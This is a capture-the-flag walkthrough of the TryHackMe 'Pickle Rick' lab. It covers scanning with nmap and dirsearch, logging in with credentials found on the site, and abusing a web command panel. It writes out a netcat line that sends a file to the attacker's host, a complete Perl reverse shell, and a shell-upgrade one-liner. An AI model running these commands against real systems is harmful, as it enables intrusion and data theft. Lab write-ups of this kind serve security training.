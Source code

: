 # Pickle Rick
This is a truly fun, easy box, great for beginners, and quite entertaining for 'Rick and Morty' fans.

![Pickle-Rick](../Images/thm_pickle-rick_1.png)

**Tools: nmap, dirsearch, netcat.**

Because TryHackMe's machines don't have specific IPs assigned to them (and I had to restart my instance during the CTF, thus changing its IP), I'll simply use <targetIP> where you should put the target's IP.

We begin with the nmap scan:
> nmap -Pn -sC -sV --min-rate=10000 \<targetIP>

![Pickle-Rick](../Images/thm_pickle-rick_2.png)

Ports 22 (SSH) and 80 (HTTP) are open. Taking a look at the webpage, we see the following:

![Pickle-Rick](../Images/thm_pickle-rick_3.png)

So we're tasked with finding 3 flags (ingredients). Looking at the page's source, we also see this:

![Pickle-Rick](../Images/thm_pickle-rick_4.png)

We'll save the username for later. Now we can run a fuzzer, such as dirsearch:
> dirsearch -u http://\<targetIP>

![Pickle-Rick](../Images/thm_pickle-rick_5.png)
  
The robots.txt file shows us 'Wubbalubbadubdub'. The login.php brings us a login form, we can try to authenticate using the username we've just found, and maybe the string from the robots file as the password...
  
![Pickle-Rick](../Images/thm_pickle-rick_6.png)
  
We're able to login with those credentials. In the webpage we see a Command Panel. In the www-data user root directory, we can see a txt file containing a 'super secret ingredient', which we can read directly from the browser - this is our first ingredient. 
> http://\<targetIP>/Sup3rS3cretPickl3Ingred.txt

![Pickle-Rick](../Images/thm_pickle-rick_7.png)
  
For the next steps, keep in mind that the 'cat' command is disabled for this command panel, so we can't easily read the files. After some manual enumeration, I found the 'second ingredients' file at /home/rick, so I've managed to send this file to my VM through a quick netcat reverse shell.

In your machine start a netcat session:
> nc -vnlp 9003 > file.txt

![Pickle-Rick](../Images/thm_pickle-rick_8.png)

Then in the command panel:
> /bin/sh | nc \<yourIP> 9003 < /home/rick/'second ingredients'

![Pickle-Rick](../Images/thm_pickle-rick_9.png)

Simply read the file.txt to grab the second ingredient.  
Using sudo -l shows us that we can run everything with 'sudo'.

![Pickle-Rick](../Images/thm_pickle-rick_10.png)

I've tried quite a few creative ways to grab the flag from the command panel, but nothing worked. I've decided to start a reverse shell.  
In your machine start a netcat session:
> nc -vnlp 9003

Then in the command panel, you can run this perl revshell (just change the IP to your VPN's IP):
> perl -e 'use Socket;$i="<yourIP>";$p=9003;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

![Pickle-Rick](../Images/thm_pickle-rick_11.png)

Now with the reverse shell in our machine, we can spawn a fully interactive shell (for the sake of it, I always do this):
> python3 -c 'import pty; pty.spawn("/bin/bash")'

Now, after some previous enumeration, I've seen that inside the /home/ubuntu there are some hidden files (which we can see by using the 'ls -la' command), one of them is the .bash_history, and if we read this file we'll be able to grab the 3rd ingredient.
> cat /home/ubuntu/.bash_history

Another way of doing this is by reading the txt file from the '/root' directory.

**That's all for this box!**  
Thanks for reading and keep hacking!
